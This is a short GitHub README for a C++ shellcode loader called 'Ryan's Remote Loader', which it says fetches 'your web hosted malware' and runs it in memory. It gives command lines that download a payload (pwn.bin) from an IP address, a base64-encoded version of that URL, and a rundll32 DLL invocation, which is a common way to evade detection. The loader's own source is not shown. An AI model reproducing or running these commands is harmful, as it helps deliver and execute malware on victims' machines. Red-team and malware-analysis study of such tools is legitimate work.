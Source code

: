 # Ryan's Remote Loader

Custom shellcode loader written in C++. This will grab your web hosted malware and run it in memory.

This project is password protected at this time.

![alt text](https://github.com/ryansisco/RyansRemoteLoader/blob/main/RRL.png?raw=true)

## Examples:
RRL.exe will take the remote bin file as a parameter like:
`RRL.exe http://10.0.0.54/pwn.bin`

RRL.exe can also take b64 encoded payloads:
`RRL.exe -enc aHR0cDovLzEwLjAuMC41NC9wd24uYmluCg==`


This can also be run as a DLL like the following: 
`rundll32.exe RRLDLL.dll,Driver aHR0cDovLzEwLjAuMC41NC9wd24uYmluCg==`

